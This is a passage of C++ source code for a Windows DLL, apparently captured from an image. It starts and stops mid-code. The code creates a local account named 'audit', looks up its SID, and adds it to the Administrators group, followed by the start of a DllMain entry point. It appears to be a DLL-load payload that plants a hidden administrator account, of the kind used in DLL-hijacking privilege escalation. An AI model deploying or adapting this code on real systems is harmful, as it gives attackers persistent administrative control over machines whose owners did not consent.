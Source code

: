 ```cpp
		(LPBYTE)&ud,
		NULL			// error value
	);

	if (rc != NERR_Success) {
		_tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
		return rc;
	}

	//
	// Get user SID
	// http://msdn.microsoft.com/en-us/library/aa379159(v=vs.85).aspx
	//

	b = LookupAccountName(
		NULL,			// local server
		_T("audit"),	// account name
		Sid,			// SID
		&cbSid,			// SID size
		Domain,			// Domain
		&cbDomain,		// Domain size
		&snu			// SID_NAME_USE (enum)
	);

	if (!b) {
		dw = GetLastError();
		_tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
		return dw;
	}

	//
	// Add user to "Administrators" local group
	// http://msdn.microsoft.com/en-us/library/aa370436%28v=VS.85%29.aspx
	//

	memset(&gd, 0, sizeof(gd));

	gd.lgrmi0_sid = (PSID)Sid;

	rc = NetLocalGroupAddMembers(
		NULL,					// local server
		_T("Administrators"),
		0,						// information level
		(LPBYTE)&gd,
		1						// only one entry
	);

	if (rc != NERR_Success) {
		_tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
		return rc;
	}

	return 0;
}


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
```